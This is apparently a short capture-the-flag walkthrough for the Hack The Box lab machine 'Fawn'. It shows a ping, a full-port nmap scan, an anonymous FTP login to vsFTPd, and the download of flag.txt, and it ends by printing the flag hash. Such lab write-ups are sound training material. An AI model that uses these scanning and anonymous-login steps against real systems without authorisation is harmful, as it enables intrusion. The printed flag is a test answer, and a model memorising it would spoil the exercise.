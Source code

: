![Fawn.png](/assets/Tier-0/Fawn/fawn.jpg)

1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 2 10.129.166.28
```



2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.166.28
```

**Output**
```bash
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
```

3. Connect with **ftp**
```bash
┌──(root㉿kali)-[/home/kali]
└─| ftp 10.129.166.28 
Connected to 10.129.166.28.
220 (vsFTPd 3.0.3)
Name (10.129.166.28:kali):
```
+ In `Name (10.129.166.28:kali):` write **anonymous**.
+ We do this to access to system without password.


4. List files of system and get the `flag.txt` file.
```bash
ftp> ls
229 Entering Extended Passive Mode (|||12844|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
```

5. Go to path **/home/kali** list files and read `flag.txt` 
```bash
┌──(root㉿kali)-[/home/kali]
└─| cat flag.txt           
035db21c881520061c53e0536e44f815 

```



**By: EsT**